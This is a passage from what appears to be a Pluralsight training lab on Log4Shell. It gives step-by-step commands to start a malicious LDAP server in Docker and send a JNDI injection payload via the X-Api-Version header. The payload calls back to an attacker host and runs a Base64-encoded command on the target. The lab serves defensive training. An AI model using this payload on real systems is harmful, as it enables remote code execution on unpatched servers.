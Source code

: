 Congratulations! It may not seem like much just yet, but you've setup the infrastructure for detection and tested to ensure the vulnerable application is operating properly. We'll come back here, but for now let's move on to the attacker.

---
# Setup Malicious LDAP Server and POC

In this challenge, you will be setting up the attacker's infrastructure and sending your first malicious payload to test a Proof of Concept (POC).

1.  Start by swapping to the **Ubuntu Attacker Endpoint**. This can be done by typing `CTRL`, `ALT`, and `Shift` simultaneously and clicking the **Pluralsight** drop down from the top-left.![figure](https://pluralsight2.imgix.net/labs/assets/d6196e69-1635-4296-b652-5b486ee6f0b7_attacker-endpoint.png)﻿
    
2.  Test network connectivity to the vulnerable application (Remember, a 400 error is expected!):
    
    `curl http://172.31.24.20:8080`﻿![figure](https://pluralsight2.imgix.net/labs/assets/50645b5a-adbf-408f-b8e9-5281a83daff7_curl-test.png)
    
3.  Next, you'll need to setup the malicious LDAP server. When you send the payload to the vulnerable app, it will use JNDI to call back to this malicious LDAP server for further instructions. Start with a clean terminal session:
    
    `screen -S ldap`
    
4.  Start the LDAP server:
    
    `sudo docker run --name log4jldapserver -p 1389:1389 -p 8888:8888 oofles/log4shell-ldap-server`
    
    **Note:** You are setting the LDAP server to listen on port **1389** (for LDAP requests) and port **8888** (for the redirected payload commands to be sent over HTTP). ![figure](https://pluralsight2.imgix.net/labs/assets/a5a5a969-6661-4600-a863-9621605bdad8_ldap-listening.png)﻿
    
5.  Detach from that session by using the button key combinations of `CTRL + A`, let go, and then press `D`.
    
6.  Now it's time to send the first malicious payload! The vulnerable application is logging the **X-Api-Version** field, so you'll use `curl` to send the payload, changing that field to contain the malicious string:
    
    `curl 172.31.24.20:8080 -H 'X-Api-Version: ${jndi:ldap://172.31.24.10:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==}'`
    
    **Note:** The Base64 encoded string translates to: `touch /tmp/pwned`.![figure](https://pluralsight2.imgix.net/labs/assets/2aa54e6c-d6c1-42be-8c21-fbdbf0570321_poc-sent.png)﻿
    
    **Analysis:** A **Hello World!** response is the method this vulnerable app uses to let you know the request was successful.
    
7.  Check the LDAP server to see if the requests came through successfully:
    
    `screen -r ldap`﻿![figure](https://pluralsight2.imgix.net/labs/assets/3e13803a-5da2-4081-b150-d6dfe940b0dd_ldap-poc.png)﻿
    
    **Analysis:** You can see the initial LDAP query come through for **Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==**. The server then translates the Base64 payload into a command and passes to a Java class that handles delivery and execution. This payload is then sent to the vulnerable endpoint over port **8888**.
    